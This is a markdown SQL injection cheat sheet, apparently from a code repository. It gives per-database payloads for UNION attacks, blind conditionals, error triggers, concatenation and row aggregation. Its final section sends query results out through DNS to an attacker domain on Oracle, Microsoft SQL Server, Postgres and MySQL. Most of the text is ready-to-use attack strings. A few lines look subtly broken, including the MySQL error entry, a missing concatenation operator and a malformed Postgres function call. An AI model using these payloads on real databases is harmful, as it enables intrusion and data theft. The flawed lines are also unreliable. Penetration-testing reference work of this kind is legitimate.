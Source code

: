 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDb - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDb - `SELECT table_name FROM information_schema.tables`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDb - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDb - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Joining Rows
**Useful if reflection only takes first row**
- Oracle - `listagg(<COL>, "\n")`
- Microsoft / Postgres - `string_agg(<COL>, "\n")`
- MySQL / MariaDb - `group_concat(<COL1>, ":", <COL2>, "\n")`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDb - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDb - `<QUERY1>;<QUERY2>`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||<QUERY>||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDb (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`